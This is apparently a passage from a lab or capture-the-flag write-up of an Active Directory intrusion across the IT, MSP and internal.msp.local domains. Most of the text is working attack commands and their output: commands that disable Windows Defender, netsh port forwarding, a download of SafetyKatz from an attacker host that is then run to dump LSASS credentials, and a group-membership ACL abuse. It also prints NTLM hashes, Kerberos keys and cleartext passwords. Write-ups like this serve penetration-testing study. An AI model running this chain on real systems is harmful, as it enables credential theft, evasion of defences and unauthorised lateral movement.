* Password : 39 ab e5 9e 66 2b e0 d6 bb 11 ed ec e1 2f 3f 1d b3 79 70 2a ab 67 d4 eb 1d 6c e2 6d 9b d1 57 ba 1b c9 87 cf ef 9b 4f 85 c6 81 4f 76 e4 89 93 bc 23 86 db d3 31 ee c1 9f 87 a4 36 5d 50 7d 1b 19 71 80 7a 5b 0a cb b8 00 7e 03 46 94 41 50 06 c5 e6 70 90 f8 86 5a 79 5f b7 8d 99 ef 67 e8 b5 16 12 8c 6e 13 83 7a 52 e4 01 df a6 c7 9f 77 d7 7e 9c e2 73 ba 95 f2 37 86 ba b1 4c 9b 1c 72 10 bd b5 47 71 91 4c ff fa 34 04 a4 ce 92 cb 52 0d 8f cc ca d1 60 bf bb 51 1e a2 ab cb c8 7d a0 79 57 0a 8e d8 1b cf bf e2 b7 18 2a ed 50 d8 fb e1 b7 49 bc c9 e0 47 ac da 7d 6b 28 04 5f f7 c0 7d 9d b3 52 87 bc 30 38 b0 2a cf 1c f3 e3 04 66 5d 3b 83 d6 af a8 4a 70 7f 58 c7 9f 61 b8 47 02 73 20 18 e4 0e 75 7b a3 94 fb 63 4b ab 23 20 2a 00 a1
* Key List :
aes256_hmac 9f30013a970ca03227358d2fa2ab4469e60eaaf62d8181901ce9215c04f721d5
aes128_hmac 99c5c31679f0ac44d8e33c58b0ae831d
rc4_hmac_nt 9f781139283fa1e712e9dc349f236834
rc4_hmac_old 9f781139283fa1e712e9dc349f236834
rc4_md4 9f781139283fa1e712e9dc349f236834
rc4_hmac_nt_exp 9f781139283fa1e712e9dc349f236834
rc4_hmac_old_exp 9f781139283fa1e712e9dc349f236834
Authentication Id : 0 ; 109925 (00000000:0001ad65)
Session : Service from 0
User Name : SQLTELEMETRY
Domain : NT Service
Logon Server : (null)
Logon Time : 2/15/2024 6:04:38 AM
SID : S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775
msv :
[00000003] Primary
* Username : IT-SQLSRV02$
* Domain : IT
* NTLM : 9f781139283fa1e712e9dc349f236834
* SHA1 : cc259915c10d19d876f891ac8133629a17747852
* DPAPI : cc259915c10d19d876f891ac8133629a
tspkg :
wdigest :
* Username : IT-SQLSRV02$
* Domain : IT
* Password : (null)
kerberos :
* Username : IT-SQLSRV02$
* Domain : it.gcb.local
* Password : 39 ab e5 9e 66 2b e0 d6 bb 11 ed ec e1 2f 3f 1d b3 79 70 2a ab 67 d4 eb 1d 6c e2 6d 9b d1 57 ba 1b c9 87 cf ef 9b 4f 85 c6 81 4f 76 e4 89 93 bc 23 86 db d3 31 ee c1 9f 87 a4 36 5d 50 7d 1b 19 71 80 7a 5b 0a cb b8 00 7e 03 46 94 41 50 06 c5 e6 70 90 f8 86 5a 79 5f b7 8d 99 ef 67 e8 b5 16 12 8c 6e 13 83 7a 52 e4 01 df a6 c7 9f 77 d7 7e 9c e2 73 ba 95 f2 37 86 ba b1 4c 9b 1c 72 10 bd b5 47 71 91 4c ff fa 34 04 a4 ce 92 cb 52 0d 8f cc ca d1 60 bf bb 51 1e a2 ab cb c8 7d a0 79 57 0a 8e d8 1b cf bf e2 b7 18 2a ed 50 d8 fb e1 b7 49 bc c9 e0 47 ac da 7d 6b 28 04 5f f7 c0 7d 9d b3 52 87 bc 30 38 b0 2a cf 1c f3 e3 04 66 5d 3b 83 d6 af a8 4a 70 7f 58 c7 9f 61 b8 47 02 73 20 18 e4 0e 75 7b a3 94 fb 63 4b ab 23 20 2a 00 a1
* Key List :
aes256_hmac 9f30013a970ca03227358d2fa2ab4469e60eaaf62d8181901ce9215c04f721d5
aes128_hmac 99c5c31679f0ac44d8e33c58b0ae831d
rc4_hmac_nt 9f781139283fa1e712e9dc349f236834
rc4_hmac_old 9f781139283fa1e712e9dc349f236834
rc4_md4 9f781139283fa1e712e9dc349f236834
rc4_hmac_nt_exp 9f781139283fa1e712e9dc349f236834
rc4_hmac_old_exp 9f781139283fa1e712e9dc349f236834
Kerberos Double-Hopping and Its Issues
When I tried to import PowerShell and also ADModule

Import-Module C:\PowerView.ps1

Bypassing Kerberos Double-Hopping issue
$passwd = ConvertTo-SecureString "Vend0r'sDatabaseSecret" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("msp\mspdb", $passwd)
Get-DomainComputer -Credential $creds | Select -ExpandProperty 'cn'

Accessing MSP-SRV01 Via WinRS
Import-Module .\PowerView.ps1
$passwd = ConvertTo-SecureString "Vend0r'sDatabaseSecret" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("msp\mspdb", $passwd)
Get-ADComputer -Credential $creds
Find-LocalAdminAccess -Credential $creds

If we simply try to access MSP-SRV01 straightforward we will face the following issue blow.
winrs -r:MSP-SRV01.MSP.LOCAL cmd

Once again, we face this issue because of Kerberos Double-Hopping. So we need to specify the mspdb credentials to be able to login. Now, the next issue we face is the issue that we have faced several times before, related to WinRM permissions and we already know the bypass for that.
winrs -r:MSP-SRV01.msp.local -u:"msp\mspdb" -p:"Vend0r'sDatabaseSecret" cmd

PSWA - Powershell Web Access
Now that we are inside MSP-SRV01, We found that this server is hosting a Web Service, and we can discover this by issuing the command Get-WebApplication.
Get-WebApplication

As we can see above, we have the prove that a Web service is running on the server with an application pull named pswa_pool and it is using HTTP Protocol.
This is PowerShell Web Access (PSWA) a feature that exposes a PowerShell session via browser (RDP-for-PowerShell).
Enumerating Open Ports
netstat -ano | findstr "LISTENING"

OK OK OK... normally PowerShell Web Access runs on TCP/443. Because we are not able to access MSP.LOCAL doomain from our Employee workstation, we need to do a port forwarding from MSP-SQLREPORT pointing all traffic coming from any source IP on port 443 to be forwarded to to MSP-SRV01 on Port 443.
netsh interface portproxy add v4tov4 listenport=80 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.250.22
netsh interface portproxy add v4tov4 listenport=443 listenaddress=0.0.0.0 connectport=443 connectaddress=192.168.250.22

After doing this port forwarding on MSP-SQLREPORT, we are able the Powershell Web Access service.

Disable MSP-SRV01 Firewalls
Set-MpPreference -DisableRealtimeMonitoring 1; Set-MpPreference -DisableBehaviorMonitoring 1; Set-MpPreference -Disable ScriptScanning 1; Set-MpPreference -DisableIntrusionPreventionSystem 1; Set-MpPreference -DisableNetworkProtection 1; Set-MpPreference -SubmitSamplesConsent 2; Set-MpPreference -MAPSReporting 0; Set-MpPreference -PUAProtection 0
Now Upload SafetyKatz to dump LSASS credentials
Invoke-WebRequest -Uri http://192.168.100.41:443/SafetyKatz.exe -OutFile 'C:\SafetyKatz.exe' -UseBasicParsing
C:\SafetyKatz.exe "sekurlsa::logonpasswords /patch" "exit"
logonpasswords
mimikatz(commandline) # sekurlsa::logonpasswords /patch
Authentication Id : 0 ; 4848344 (00000000:0049fad8)
Session : Service from 0
User Name : pswa_pool
Domain : IIS APPPOOL
Logon Server : (null)
Logon Time : 4/20/2024 1:16:14 AM
SID : S-1-5-82-2883991969-2481503881-2978453264-941640394-3614909656
msv :
[00000003] Primary
* Username : MSP-SRV01$
* Domain : MSP
* NTLM : 51cadf87076f5d9e8938f675ccf08518
* SHA1 : 1d6f67adfb8954169ff0a940bdd8d438f9a7fa1f
* DPAPI : 1d6f67adfb8954169ff0a940bdd8d438
tspkg :
wdigest :
* Username : MSP-SRV01$
* Domain : MSP
* Password : (null)
kerberos :
* Username : MSP-SRV01$
* Domain : msp.local
* Password : 73 de e3 e9 b3 aa 2b e0 bf 4e 99 59 ce e2 55 4a 3e 0c 98 db e0 fc 4e e7 a6 80 9a b9 4a 75 c6 c4 a
5 1d 4c 95 fe 11 e0 9c 0d 3a 6e 8e 55 a7 ca 87 55 8a c8 7e 95 c7 96 07 25 a4 8d 6d bf d8 9d cf 10 8b 8b 1a 94 88 98 2a
8d 60 e5 4b 76 45 21 fb e9 79 9a 91 9e 60 10 20 74 f2 5f cb 81 9f f0 1e de f7 af 0c e5 5b 2c bf a9 47 19 fd 67 c7 4c 0e
5c 2e e1 5d 1f 8b 28 27 3a cb 0c cb 37 40 b9 42 a3 c1 30 0c 7b ca cd 3a bd fb f2 64 1a df 80 e2 e2 bf 3e e2 92 52 e0 b
e ac 10 11 a4 eb ec 46 fb 1c 0f 97 66 84 b2 94 fa 33 da 68 74 d4 c6 39 3c e7 c4 09 85 d2 d2 9e 7d 8b b0 b4 2f 15 df e5
41 39 7e 7a ef e6 cb cb fb 8d bb d6 1a 9e e8 f8 64 c2 38 0c f2 27 8c 2b 69 56 62 ed c1 19 46 2a 69 58 8c 2c 6b d2 1c ba
6b 93 68 06 ee 81 80 71 20
ssp :
[00000000]
* Username : mspdb
* Domain : msp
* Password : Vend0r'sDatabaseSecret
credman :
Authentication Id : 0 ; 2778255 (00000000:002a648f)
Session : RemoteInteractive from 2
User Name : Administrator
Domain : MSP-SRV01
Logon Server : MSP-SRV01
Logon Time : 2/15/2024 6:33:52 AM
SID : S-1-5-21-2302994670-2188927374-388541401-500
msv :
[00000003] Primary
* Username : Administrator
* Domain : MSP-SRV01
* NTLM : 60e0e1a59ea48e5ff0aed9128a15d3ba
* SHA1 : c3b6fe73e7c5b5c2b6c67e54cffec8c42b52cc3f
* DPAPI : c3b6fe73e7c5b5c2b6c67e54cffec8c4
tspkg :
wdigest :
* Username : Administrator
* Domain : MSP-SRV01
* Password : (null)
kerberos :
* Username : Administrator
* Domain : MSP-SRV01
* Password : (null)
ssp :
credman :If we try to import PowerView for enumeration and execute it without passing the credential's it seems like we are facing the same Kerberos Double-Hopping once again. So It's is better to pass the credentials as we did previously for the enumeration. Let's now try to enumerate the domain trusts.
$passwd = ConvertTo-SecureString "Vend0r'sDatabaseSecret" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("msp\mspdb", $passwd)
Get-DomainTrust -Credential $creds

Enumerating Users
Let's start by enumerating the internal.msp.local users.
Get-DomainUser -Domain 'internal.msp.local' -Credential $Creds | Select -ExpandProperty 'name'

Groups in internal.msp.local
Users
Guests
Print Operators
Backup Operators
Replicator
Remote Desktop Users
Network Configuration Operators
Performance Monitor Users
Performance Log Users
Distributed COM Users
IIS_IUSRS
Cryptographic Operators
Event Log Readers
Certificate Service DCOM Access
RDS Remote Access Servers
RDS Endpoint Servers
RDS Management Servers
Hyper-V Administrators
Access Control Assistance Operators
Remote Management Users
Storage Replica Administrators
Domain Computers
Domain Controllers
Cert Publishers
Domain Admins
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
Server Operators
Account Operators
Pre-Windows 2000 Compatible Access
Windows Authorization Access Group
Terminal Server License Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
DnsAdmins
DnsUpdateProxy
ForestManagers
InternalAdmins
BatchUsers
It is possible to see the list of all groups inside internal.msp.local. We can see above that we do have here 3 groups that are not usual domain groups. so let's focus on enumerating these groups.
Enumerating ACL
WriteProperty (Self-Membership)
This allows attackers to directly add themselves to groups by modifying group properties if they have the WriteProperty or Self (Self-Membership) right on those groups.
Get-ObjectAcl -DistinguishedName "ForestManagers" -Domain internal.msp.local -Credential $Creds | Where-Object { $_.ActiveDirectoryRights -match "GenericAll|GenericWrite|WriteOwner|WriteDacl|AllExtendedRights|WriteProperty|ExtendedRight|Self|CreateChild|DeleteChild" } | Select-Object SecurityIdentifier, ActiveDirectoryRights

If we enumerate our own RID we find our that it ends with 1107. It means that our user msdb has Self Rights inside ForestManagers.
whoami /all

Because we're adding a user from msp.local into a group in internal.msp.local, we need to fully resolve the user object so that the internal.msp.local domain can recognize and accept it.
In cross-domain operations, we can't just pass a username, we have to provide a fully qualified identity the target domain understands.
$SecurePassword = ConvertTo-SecureString "Vend0r'sDatabaseSecret" -AsPlainText -Force
$Creds = New-Object System.Management.Automation.PSCredential("msp\mspdb", $SecurePassword)
$mspdb = Get-ADUser -Identity 'mspdb' -Server msp.local -Credential $Creds
Add-ADGroupMember -Identity ForestManagers -Members $mspdb -Server internal.msp.local -Credential $Creds -Verbose

Now if we do enumerate the users inside ForestManagers Group, we will see that our mspdb is now member of this group inside internal.msp.local.
Now if we try to access internal-srv06.internal.msp.local using WinRS, we access it successfully.
winrs -r:internal-srv06.internal.msp.local -u:"msp\mspdb" -p:"Vend0r'sDatabaseSecret" cmd

As you can see above, I tried to access internal-srv06.internal.local using winrs, apparently I got access successful, but when issuing the command hostname, I see that I was still inside MSP-SRV01 and I did not understand why. So I decided to exit back to PSWA and this time I accessed the internal-srv06 server directly instead of MSP-SRV01.
User; msp\mspdb
Password: Vend0r'sDatabaseSecret
Hostname: internal-srv06.internal.msp.local

Dumping Credentials in Internal-srv06.internal.msp.local.
Invoke-WebRequest -Uri http://192.168.100.41:443/SafetyKatz.exe -OutFile "C:\SafeyKatz.exe" -UseBasicParsing
C:\SafeyKatz.exe "Privilege::Debug" "sekurlsa::logonpasswords /patch" "exit"
Creds
C:\SafeyKatz.exe "Privilege::Debug" "sekurlsa::logonpasswords /patch" "exit"
.#####. mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # Privilege::Debug
Privilege '20' OK
mimikatz(commandline) # sekurlsa::logonpasswords /patch
Authentication Id : 0 ; 284508 (00000000:0004575c)
Session : Interactive from 2
User Name : UMFD-2
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/15/2024 6:03:25 AM
SID : S-1-5-96-0-2
msv :
[00000003] Primary
* Username : INTERNAL-SRV06$
* Domain : INTERNALMSP
* NTLM : 5af2df4ec639a926171e4b2b301e59b0
* SHA1 : 0fbb09b833d6518ae27558d43ab806581862ec3f
* DPAPI : 0fbb09b833d6518ae27558d43ab80658
tspkg :
wdigest :
* Username : INTERNAL-SRV06$
* Domain : INTERNALMSP
* Password : (null)
kerberos :
* Username : INTERNAL-SRV06$
* Domain : internal.msp.local
* Password : 5e 7c f4 7f 62 66 a0 eb 04 7a 10 fe 1d 6d 37 ec 05 39 41 8b 3b f7 04 3b 0f 3e eb 4c ec 8e 22 7e e
f ee ed e3 ce 1b a0 d4 35 c8 fd 04 c3 cc dc 09 e2 a8 dd 4f 29 c0 66 c9 48 ee 0b d8 5d c8 00 73 b4 21 fb db 57 de db 42
2f 94 a0 61 5d 2c 6c ed 8c 85 4e b8 cf 26 c4 16 6b 71 f5 73 6c 09 68 d8 f3 19 b7 b2 a3 37 b3 5b 7f bd 25 6f 77 d7 76 c6
2d f9 29 9c 6d 8b bd 84 5b 6d d7 98 be a5 bf b9 07 50 8d 85 58 fb 44 89 09 70 48 88 58 14 ba a8 95 f7 38 50 4c c0 0a d
1 5e 22 1d da c4 ba 44 e2 f1 3b 89 95 77 05 5a 5c 7a ba 08 4e 09 6f 3f 58 9f 3e 91 d3 3a 91 23 38 c3 8a ee a8 b6 84 65
55 94 39 f1 01 09 4d eb 6d 21 be a2 a7 e4 c9 63 35 7a c7 ef 19 2d b0 7d 6d 2d 1f f9 30 76 a7 b1 dc c2 81 34 72 81 0f a4
16 ce 75 43 1d e2 c9 ba e4
ssp :
credman :
Authentication Id : 0 ; 111483 (00000000:0001b37b)
Session : Service from 0
User Name : batchsvc
Domain : INTERNALMSP
Logon Server : INTERNAL-DC01
Logon Time : 2/15/2024 6:02:39 AM
SID : S-1-5-21-2754435719-1041067879-922430489-1120
msv :
[00000003] Primary
* Username : batchsvc
* Domain : INTERNALMSP
* NTLM : 10ee9d3f6da987cac9357548fadb7f7b
* SHA1 : 8a3f3fe9b212276e91435ca655b4a323195c4c12
* DPAPI : 6c97f11d2820a2c4fdd00e11f7304f53
tspkg :
wdigest :
* Username : batchsvc
* Domain : INTERNALMSP
* Password : (null)
kerberos :
* Username : batchsvc
* Domain : INTERNAL.MSP.LOCAL
* Password : Serv!ceUser4Status
ssp :
credman :